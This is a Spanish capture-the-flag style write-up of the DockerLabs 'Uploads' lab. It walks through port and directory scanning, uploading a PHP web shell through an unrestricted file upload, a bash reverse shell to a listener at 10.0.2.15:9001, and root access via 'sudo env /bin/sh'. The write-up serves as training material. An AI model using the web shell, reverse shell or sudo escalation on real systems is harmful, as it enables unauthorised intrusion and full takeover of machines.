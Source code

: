 #Uploads DockerLabs
#web - https://dockerlabs.es/#/

Primero hacemos un escaneo de puertos basico hacia la ip que por defecto es la *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

Vemos que hay un puerto 80 abierto y entramos desde firefox.


Entramos y vemos una pagina web con un apartado para subir archivos.
Realizamos un escaneo de subdominios con gobuster para ver si encontramos algo interesante.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

Encontramos un subdominio *http://172.17.0.2/uploads/*.
Entramos y podemos ver que es donde se alojan los archivos subidos.


Creamos un script en formato ".php" con el siguiente contenido
```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:



```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```
Entramos a "https://www.revshells.com/" en esta web encontramos revershells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla



Ejecutamos netcat con el puento 9001 como puerto de escucha
```shell
nc -lvnp 9001
listening on [any] 9001 ...

```

Ejecutamos la reverse shell de manera en que llamemos al archivo "cmd.php" y le pasasemos los parametros anteriores "?cmd=id" y ahora sustituimos id por bash -c seguido de dos comillas y la reverse shell:
```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```
Ahora solo faltaria la escalada de privilegios
Comprobamos los permisos del usuario con:
```shell
sudo -l
```
En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario root como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:
```shell
sudo env /bin/sh
```
y ahora realizamos un whoami para saber que usuario somos:
```shell
whoami
```
y podremos comprobar que si que somos el usuario root.
